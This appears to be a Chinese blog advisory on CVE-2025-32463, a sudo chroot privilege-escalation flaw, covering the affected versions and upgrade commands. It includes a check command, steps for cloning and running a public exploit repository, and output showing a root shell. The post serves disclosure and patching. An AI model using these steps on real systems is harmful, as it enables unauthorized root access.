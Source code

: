 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MjM5OTc5MjM4Nw==&mid=2457389175&idx=1&sn=b8a393aea1447997a2db250a2aefcf59

#  不容小觑的威胁：CVE-2025-32463 Linux提权漏洞，轻松利用却要紧急修复  
原创 didiplus  攻城狮成长日记   2025-07-06 03:03  
  
## 漏洞描述  
  

```
CVE-2025-32463
```

  
是一个存在于 Linux 系统 sudo 组件中的高危本地权限提升漏洞，主要与 chroot 功能的安全性弱点相关。此漏洞允许攻击者通过精心构造特定的环境变量，在执行 
```
sudo chroot
```

  
 命令时规避既定的安全约束，进而非法获取目标系统的 root 权限。该安全问题的根本原因在于 chroot 机制在处理来自不可信源的输入时存在缺陷，未能有效防止潜在的权限升级攻击向量。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OsuOF7sibMYvxMk5fbib3zfqrkZSp06jVO1ShdicJA6o0onUls7uSewKnq5F3yicPiblsoib5YM5XtNNQpRZR7IzZhMQ/640?wx_fmt=png&from=appmsg "")  
## 影响组件  
  
Linux 是一个免费且开源的操作系统，其设计灵感来源于 Unix，并在服务器、嵌入式系统以及云计算平台等领域得到了广泛应用。  
  
作为 Linux 系统中管理权限的关键机制之一，
```
sudo
```

  
 允许经过授权的用户临时性地获取 root 或其他指定用户的权限以执行特定命令。这一机制不仅增强了系统的安全性，同时也简化了操作日志的记录与审计流程。  
## 影响版本  
  
大多数
```
Linux
```

  
发行版上的
```
sudo 1.9.14
```

  
至
```
1.9.17
```

  
（所有p修订版）的易受攻击版本都会受到影响。  
## 漏洞复现  
  
关注公众号回复: 
```
CVE-2025-32463
```

  
获取提权
```
exp
```

  
### 快速检查漏洞  

```
# Vulnerable sudo
pwn ~ $ sudo-R woot woot
sudo: woot: No such file or directory

# Patched sudo
pwn ~ $ sudo-R woot woot
[sudo] password for pwn:
sudo: you are not permitted to use the -R option with woot

```

### Docker容器中的测试漏洞  

```
# 1 – clone repo
$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git
$ cd CVE-2025-32463_chwoot

# 2 – build and run Docker image (tagged &#34;sudo-chwoot&#34;)
$ ./run.sh

# 3 – run exploit in container (runs root command directly or drops you into a root shell)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh id
woot!
uid=0(root)gid=0(root)groups=0(root),1001(pwn)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh
woot!
root@f722d9182d1f:/# id
uid=0(root)gid=0(root)groups=0(root),1001(pwn)
root@f722d9182d1f:/#

```

## 修复建议  
  
建议立即进行升级：将 sudo 更新至 1.9.17p1 或更高版本。目前，主流 Linux 发行版已提供相应的安全补丁，用户可通过执行以下命令来完成更新过程。  

```
# Ubuntu/Debian  
sudoapt update &&sudoapt upgrade sudo 

# CentOS/RHEL  
sudo yum update sudo  

```

  
  
推荐文章  
  
- [密码策略不设防？等保2.0下，这些Linux加固配置你必须知道！](https://mp.weixin.qq.com/s?__biz=MjM5OTc5MjM4Nw==&mid=2457389157&idx=1&sn=88250db9b5ef6f33d6d2b0975b546a8a&scene=21#wechat_redirect)  
  
  
- [深入解析：用lsof揪出“幽灵文件”释放磁盘空间](https://mp.weixin.qq.com/s?__biz=MjM5OTc5MjM4Nw==&mid=2457389141&idx=1&sn=edbced0413cc2a1f92cd02a19853d3a0&scene=21#wechat_redirect)  
  
  
- [等保2.0硬核要求：SSH七项加固缺一不可](https://mp.weixin.qq.com/s?__biz=MjM5OTc5MjM4Nw==&mid=2457389133&idx=1&sn=74db6f4f82687f19d4dafdb932a2b45a&scene=21#wechat_redirect)  
  
  
- [一键收集服务器日志！用Ansible剧本解放你的双手！](https://mp.weixin.qq.com/s?__biz=MjM5OTc5MjM4Nw==&mid=2457389125&idx=1&sn=699185c3232b9f2258143416a7406eaf&scene=21#wechat_redirect)  
  
  
- [惊喜来袭！1panel迎来v2时代，一键升级畅享新功能](https://mp.weixin.qq.com/s?__biz=MjM5OTc5MjM4Nw==&mid=2457389111&idx=1&sn=e7c7dc4f5846a2fffe9286bc3e356ad4&scene=21#wechat_redirect)  
  
  
  
  
![微信公众号二维码](https://mmbiz.qpic.cn/sz_mmbiz_jpg/OsuOF7sibMYvxMk5fbib3zfqrkZSp06jVOpy6ibq3JUg3FgY83Ofg8kzVBD9BK1qibsInQogbMib8ia1zArLtOabR3Ng/640?wx_fmt=jpeg&from=appmsg "")  
  
扫码关注公众号  
  
关注我的博客  
  
didiplus.kwpmp.cn  
  
